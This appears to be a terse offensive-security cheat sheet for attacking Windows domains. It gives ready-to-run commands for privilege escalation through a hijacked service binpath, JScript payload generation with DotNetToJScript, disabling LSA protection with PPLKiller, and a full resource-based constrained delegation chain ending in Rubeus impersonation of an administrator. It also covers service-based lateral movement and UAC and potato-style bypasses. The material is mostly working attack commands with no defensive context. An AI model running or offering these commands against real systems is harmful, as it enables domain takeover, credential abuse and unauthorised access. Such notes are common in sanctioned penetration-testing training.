 Service CheatSheet
---------------------
sc config SNMPTRAP binpath= "cmd.exe /c net localgroup administrators john /add" start= "demand" obj= "NT AUTHORITY\SYSTEM" password= ""

HTA JS PAYLOAD
---------------------
DotNetToJScript

DotNetToJScript.exe ExampleAssembly.dll --lang=JScript --ver=4 -o payload.js

Run the combined ligolo agent with ApplockerBypass
-----------------------

If LSA Protection 
--------------------
PPLKiller.exe /installDriver

RBCD
--------------------
```powershell
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer file05 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/file05 /ptt
```

Lateral Movement
---------------------
 -> https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/Fileless%20Lateral%20Movement

```powershell
lat.exe <server> <service name> <payload.exe>
Lat.exe file05 SensorService “C:\windows\tasks\inj.exe”
``` 

uacbypass.ps1
SigmaPotato.exe
